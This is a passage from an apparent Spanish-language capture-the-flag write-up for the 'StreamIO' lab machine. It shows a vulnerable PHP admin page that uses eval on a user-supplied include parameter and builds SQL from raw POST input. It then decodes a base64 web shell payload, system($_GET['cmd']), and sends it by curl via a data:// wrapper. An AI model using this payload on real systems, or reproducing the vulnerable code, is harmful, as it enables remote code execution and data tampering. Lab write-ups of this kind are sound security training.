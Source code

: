 Hacemos exactamente lo mismo pero en vez de index.php ponemos master.php
```php
<h1>Movie managment</h1>
<?php
if(!defined('included'))
    die("Only accessable through includes");
if(isset($_POST['movie_id']))
{
$query = "delete from movies where id = ".$_POST['movie_id'];
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
}
$query = "select * from movies order by movie";
$res = sqlsrv_query($handle, $query, array(), array("Scrollable"=>"buffered"));
while($row = sqlsrv_fetch_array($res, SQLSRV_FETCH_ASSOC))
{
?>

..[snip]...

<br><hr><br>
<form method="POST">
<input name="include" hidden>
</form>
<?php
if(isset($_POST['include']))
{
if($_POST['include'] !== "index.php" ) 
eval(file_get_contents($_POST['include']));
else
echo(" ---- ERROR ---- ");
}
?>

```

Vemos que existe una definición 'include' en las lineas finlas del codigo fuente de master.php

### Explotación [+](#exploit) {#exploit}

Mirando este <a href="https://www.rafaybaloch.com/2017/06/remote-code-execution-in-php-explained.html" target="_blank">articulo</a> se puede provocar un LFI(local file include)

Usaré el cifrado en base64 para ver si funcioná
```ruby
❯ echo "c3lzdGVtKCRfR0VUWydjbWQnXSk7Cg==" | base64 -d
system($_GET['cmd']);
```

`https://streamio.htb/admin/?include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7Cg==&cmd=whoami`

Probamos y vemos que no funciona asi, veamos desde la terminal

```ruby
❯ curl -s -X POST 'https://streamio.htb/admin/?include=data://text/plain;base64,c3lzdGVtKCRfR0VUWydjbWQnXSk7Cg==&cmd=whoami' -H "Cookie: PHPSESSID=i6r25al9765eq02gnv5hm92b0a" -k | grep streamio ; echo $?
1
```
El codigo de estado de la respuesta es un 1, osea no exitoso
